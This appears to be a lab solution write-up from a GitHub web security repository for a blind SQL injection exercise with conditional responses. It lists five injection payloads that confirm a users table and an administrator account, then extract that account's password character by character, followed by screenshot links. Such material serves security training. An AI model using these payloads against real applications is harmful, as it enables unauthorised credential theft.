 # Blind SQL injection with conditional responses

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/1381a1af-ac2f-43ba-9a66-0ad5248f5e21)

## Solution

' and 1=0--

' and (select 'x' from users LIMIT 1)='x'--

'and (select 'x' from users where username = 'administrator')='x'--

'and (select 'x' from users where username='administrator' and LENGTH(password)>1)='x'--

'AND (SELECT SUBSTRING(PASSWORD,1,1) FROM USERS WHERE USERNAME = 'administrator') = 'a'--

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7614b49d-11be-4c23-a3d4-707db20258f8)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a4d4df17-cf4a-4742-a7a6-067ee103d76d)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5efec87f-7947-48d5-b9c7-54ac582bdf7b)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/41982629-76ee-41b7-9f4e-5dab0c45b914)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ccba717b-9b34-44e4-b368-751f19c65037)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fb8e3f64-1d38-4c33-b41d-2cac44c19ad7)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/86c171ad-aa7f-40cd-a57f-001f5e47896d)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/509e65ea-1f59-4ce6-99b9-03119512701b)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4375a429-993a-4eb7-a98d-c0b3ebfe3b55)

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/067e0c39-0c9e-4e59-ae39-3be435c39a46)
